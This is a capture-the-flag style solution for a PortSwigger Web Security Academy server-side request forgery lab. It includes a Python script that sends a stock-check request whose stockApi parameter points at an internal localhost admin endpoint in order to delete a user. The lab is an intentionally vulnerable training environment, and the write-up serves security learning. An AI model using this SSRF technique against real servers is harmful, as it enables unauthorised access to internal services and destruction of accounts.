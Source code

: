# SSRF Basic Portswigger

## 2023-12-30, Joakim Oscarsson

### Problem description
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 

### Solution

```python

import requests 

url = "https://0af800d704f9d9f681ce572600f40083.web-security-academy.net/product/stock"

params = {"stockApi": "http://localhost/admin/delete?username=carlos"}

response = requests.post(url, data=params)

print(response.text)

```